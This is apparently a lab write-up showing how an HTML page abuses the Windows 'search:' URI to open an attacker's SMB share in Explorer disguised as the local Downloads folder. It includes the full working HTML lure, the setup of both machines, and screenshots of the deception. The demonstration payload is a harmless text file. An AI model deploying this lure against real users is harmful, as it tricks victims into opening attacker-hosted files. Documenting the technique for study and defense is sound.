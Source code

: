 ## Victim's Machine
- OS - Windows 10 1909
- Build - 18363.1139

## Attacker's Machine
- OS - Windows 10 1909
- Build - 18363.1139

## Setting Up

#### Attacker's Machine
- There is a SMB share set up on the attacker's machine.
- The files are accessible to everyone on the network.![](Attachments/Pasted%20image%2020240708021919.png)
- For testing purposes, there is a text file ( Hello.txt )  in the folder.![](Attachments/Pasted%20image%2020240708024507.png)

#### Victim's Machine
- The victim machine has a HTML file designed to open up the payload on the attackers machine and disguise it as a local file.
- The HTML file
```HTML
<html>
<head></head>
<body>
    <div id="in-page-channel-node-id" data-channel-name="in-page-channel-cnXeD0"></div>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
    <link rel="icon" href="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg">
    <meta property="og:image" content="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg">
    <title>Untitled</title>
    <meta http-equiv="refresh" content="0; URL=search:query=Hello.txt&amp;crumb=location:\\Desktop-attacke\smb\&amp;displayname=Downloads"
    <p><a href="search:query=Hello.txt&amp;crumb=location:\\Desktop-attacke\smb\&amp;displayname=Downloads">Hello</p>
</body>
</html>
```


## The Exploit
- Victim opens the HTML file to see a webpage with a popup.![](Attachments/Pasted%20image%2020240708023819.png)
- Opening Windows Explorer![](Attachments/Pasted%20image%2020240708024225.png)
	1. Windows has searched for "Hello.txt" .
	2. It appears as if the file is in "Downloads" .
	3. The actual location of the file is "\\\\Desktop-attacke\\smb\\Hello.txt"  .

- If the Victim uses a different layout, the actual location will not be visible.![](Attachments/Pasted%20image%2020240708024753.png) 